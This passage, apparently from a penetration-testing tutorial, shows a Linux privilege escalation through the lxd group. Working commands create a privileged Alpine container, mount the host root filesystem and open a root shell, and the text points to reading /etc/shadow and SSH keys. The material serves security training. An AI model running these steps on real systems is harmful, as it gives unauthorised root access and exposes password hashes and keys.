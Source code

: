 Start the LXD initialization process. Choose the defaults for each prompt. Consult this [post](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04) for more information on each step.

Privileged Groups

```shell-session
devops@NIX02:~$ lxd init

Do you want to configure a new storage pool (yes/no) [default=yes]? yes
Name of the storage backend to use (dir or zfs) [default=dir]: dir
Would you like LXD to be available over the network (yes/no) [default=no]? no
Do you want to configure the LXD bridge (yes/no) [default=yes]? yes

/usr/sbin/dpkg-reconfigure must be run as root
error: Failed to configure the bridge
```

Import the local image.

Privileged Groups

```shell-session
devops@NIX02:~$ lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: be1ed370b16f6f3d63946d47eb57f8e04c77248c23f47a41831b5afff48f8d1b
```

Start a privileged container with the `security.privileged` set to `true` to run the container without a UID mapping, making the root user in the container the same as the root user on the host.

Privileged Groups

```shell-session
devops@NIX02:~$ lxc init alpine r00t -c security.privileged=true

Creating r00t
```

Mount the host file system.

Privileged Groups

```shell-session
devops@NIX02:~$ lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

Device mydev added to r00t
```

Finally, spawn a shell inside the container instance. We can now browse the mounted host file system as root. For example, to access the contents of the root directory on the host type `cd /mnt/root/root`. From here we can read sensitive files such as `/etc/shadow` and obtain password hashes or gain access to SSH keys in order to connect to the host system as root, and more.

```shell-session
devops@NIX02:~$ lxc start r00t
devops@NIX02:~/64-bit Alpine$ lxc exec r00t /bin/sh

~ # id
uid=0(root) gid=0(root)
~ # 
```
